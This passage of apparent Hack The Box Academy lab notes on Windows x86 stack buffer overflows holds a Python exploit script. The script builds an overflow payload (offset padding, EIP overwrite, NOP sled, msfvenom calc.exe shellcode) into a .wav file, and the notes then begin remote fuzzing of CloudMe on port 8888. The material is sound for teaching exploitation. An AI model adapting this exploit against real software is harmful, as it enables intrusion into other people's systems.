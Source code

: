 ![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%200/Medium/Stack-Based%20Buffer%20Overflows%20on%20Windows%20x86/Images/esp_jmpesp.png)

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf = b""
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    with open('exploit.wav', 'wb') as f:
        f.write(payload)

exploit()
```

## Remote Fuzzing : 

Whether we are debugging a local program or one that listens for remote connections, we will have to install and debug it locally on our Windows VM. Once our exploit is fully developed, we can then run it on the remote service without needing local access.

This time, we will be debugging a program called `CloudMe`, an end-user tool for a file sharing service.

```powershell-session
PS C:\htb> netstat -a

...SNIP...
TCP    0.0.0.0:8888           0.0.0.0:0              LISTENING
[CloudMe.exe]
```

